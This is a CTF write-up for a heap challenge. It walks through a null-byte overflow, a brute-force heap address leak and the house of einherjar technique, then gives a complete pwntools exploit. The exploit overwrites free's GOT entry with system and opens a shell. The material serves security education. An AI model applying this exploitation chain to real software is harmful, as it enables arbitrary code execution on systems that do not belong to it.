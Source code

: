 This was a cool heap challenge from the CTF.
it consisted of a menu, thate lets the user do 5 things:
  1. Set sender - this will call malloc(0x78), store the address in the `sender` global variable, and ask for user input.
  2. Add message - this function will allocate a new message on the heap. It will first allocate the message structs, and then the `receiver` and the `msg`. then it will ask the user for inputs.
  3. Edit message - this function will take a username from the user, and let the user change the msg of that receiver.
  4. Print all - prints all the messages
  5. Send all - this will basiclly free all the messages from the heap.

Now, I was looking for vulnerabilites. 
I noticed, that in the `add_message` function, they used the `input` function to write our input to the new allocated chunk.
They also gave the function a size parameter, so that it knew how many bytes to read. I noticed that the size is exactly the same size of the chunk.
The input function will just use `scanf("%{len}%s%*c")`so that means that if we write `len` bytes, a null byte will be written in `receiver[len]`, which is a null byte overflow!

How it looks in GDB:

Before:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/5dd4a683-f89a-4c0c-91d8-f79b3a3d7993)


After: 

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/467df85a-dcb6-43ab-8ded-dfdf01337555)


*Exploitation*

I knew we needed to use the `house of einherjar`.
 It overwrites into the 'size' of the next chunk in memory and clears the `PREV_IN_USE` flag to 0. (as we saw in GDB, from 0x201, we made the next chunk size 0x200)
 Also, it overwrites into prev_size (already in the previous chunk's data region) a fake size. (this could be seen in 1 quadboard before the 0x200 sizefield)
 When the next chunk is freed, it finds the previous chunk to be free and tries to consolidate by going back 'fake size' in memory. 
 But in reality, the previous chunk isn't even freed. this can give us an overlapping chunks primitive which is very very strong.

 Now, I was searching for leaks. the house of einherjar requires a leak, becuase of this check in `malloc.c`:
 ```
  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");
```

we need to satisfy the equations: `fake chunk->fd->bk = fake_chunk` and `fake chunk->bk->fd = fake_chunk`, which requires a heap leak.

When searching for leaks, I noticed that in the `add_message` function,the allocated memory isn't initialized. this means, that if we have a message `A`, free it, and then allocate it again, heap meta data will be in our new chunk's user data.
The problem is that when it asks for input, it will nullterminate our string. so after we try to read it, it will just stop at the null byte and won't check stuff after it and leak us stuff.
There is a really cool bypass to that, in the `edit_message` function:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/63837f6f-fcdd-409b-9653-aea7bae13f0e)

This function will ask the user for a `name`, and look through all the messages for a message with that name. If it finds a name, it will let us edit it, otherwise, we will know it couldn't find a name.

Lets see this behaviour in gdb. I added this function calls to my python script:
```py
    for i in range(7):
        add_msg()

    add_msg()
    send_all()
    
    chunk_a = add_msg("a", "b")
```

The first part will basiclly allocate 7 chunks, which then will fill up the tcache (their fd is mangled, and I prefer to leak fastbin's metadata)
then we add another msg, and then free them all. then we allocate `chunk_a`, which its username will be takes from the 0x80 fastbin. 
This is how it looks like in gdb:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/18531f9b-acd4-47cc-8529-88ddbae57370)

It will write the name we gave it + a nullbyte. The other metadata is still there.
Now, we can use the `edit_message` function, to bruteforce byte-byte the 2 next bytes! we can start by supplying a `name = \x61\x00\x01`, and if the next byte is 0x01, it will let us edit, if it doesn't , we'll try `name = \x61\x00\x02`, until we can edit. 
We do it twice, and this will leak us the third and fourth bytes of the heap. The heap will always contain 3/4 bytes (PIE is not enabled in our case), and we know that the base address will always start with 000. This means we would need to bruteforce 1 nibble, but thats fine, because it has success rates of 1/16.
here is my brute force:

```py
    for i in range(7):
        add_msg()

    add_msg()
    send_all()

    chunk_a = add_msg("a", "a")
    third_byte = ""
    for i in range(256):
        if edit_msg("a\x00"+ chr(i), "a") == True and i != 10:
            third_byte = i
            break

    print("third byte is", third_byte)
    fourth_byte = ""
    for i in range(256):
        if edit_msg("a\x00" + chr(third_byte) + chr(i), "a") == True and i != 10:
            fourth_byte = i
            break
    print("third byte is", fourth_byte)

    heap_base = (fourth_byte << 24) + (third_byte << 16) + (0x50 << 8) #we guassed that the unknows nibble is 0x5
            
    print("heap base", hex(heap_base))
```

Now, we are ready to exploit the house of einherjar!
So lets say we have an overlapping chunks. what would we want to overwrite?
There is the msg struct! it contains pointers to both the name, and the msg strings, and if we could tamper with the msg string and then use the edit function, we can get an arbitrary write primitive.


```py


#!/usr/bin/env python3

from pwn import *

exe = ELF("./textsender")
libc = ELF("./libc-2.32.so")
ld = ELF("./ld-2.32.so")

context.binary = exe

p = gdb.debug([exe.path])


def set_sender(name):
    p.recvuntil("> ")
    p.sendline("1")
    p.recvuntil(": ")
    p.sendline(name)

def add_msg(receiver="empty", msg="empty"):
    p.recvuntil("> ")
    p.sendline("2")
    p.recvuntil("Receiver: ")
    p.sendline(receiver)
    p.recvuntil("Message: ")
    p.sendline(msg)
    return receiver
def edit_msg(name, msg):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("Name: ")
    p.sendline(name)
    if p.recvn(1) == b"[":
        return False
    p.recvuntil("message: ")
    old = p.recvline()
    p.recvuntil("message: ")
    p.sendline(msg)  
    return True


def print_all():
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("Total: ")
    total = int(p.recvuntil(" ")[:-1])
    prints = []
    for i in range(total):
        p.recvuntil(") ")
        sender = p.recvuntil(":")[:-1]
        msg = p.recvline()[:-1]
        prints.append([sender, msg])
    return prints
def send_all():
    p.recvuntil("> ")
    p.sendline("5")

def main():
    for i in range(7):
        add_msg()

    add_msg()
    send_all()

    chunk_a = add_msg("a", "a")
    third_byte = ""
    for i in range(256):
        if edit_msg("a\x00"+ chr(i), "a") == True and i != 10:
            third_byte = i
            break

    print("third byte is", third_byte)
    fourth_byte = ""
    for i in range(256):
        if edit_msg("a\x00" + chr(third_byte) + chr(i), "a") == True and i != 10:
            fourth_byte = i
            break
    print("third byte is", fourth_byte)

    heap_base = (fourth_byte << 24) + (third_byte << 16) + (0x50 << 8)
            
    print("heap base", hex(heap_base))

    send_all()
    prev_size = 0xf0

    add_msg("a",  b"A" * (240 + 184) + p64(prev_size)  + p64(heap_base + 0x1510) + p64(heap_base + 0x1510) + p64(heap_base + 0x1500) * 2)
    for i in range(6):
        add_msg("t", "t")

    
    chunk_a = add_msg(b"B" * 0x70 + p64(prev_size), "/bin/sh\x00")

    set_sender("AVOID CONSOLIDATION")
    input()
    send_all()
    for i in range(7):
        add_msg()

    binshaddress = heap_base + 0x1600
    free_got = 0x404018

    chunk = add_msg("J", b"X" * 72 + p64(0x21) + p64(binshaddress) + p64(free_got))

    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("Name: ")
    p.sendline("/bin/sh\x00")
    p.recvuntil("message: ")
    libc.address = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x8cef0
    p.recvuntil("message: ")
    p.sendline(p64(libc.sym.system)) 

    p.interactive()




if __name__ == "__main__":
    main()
```
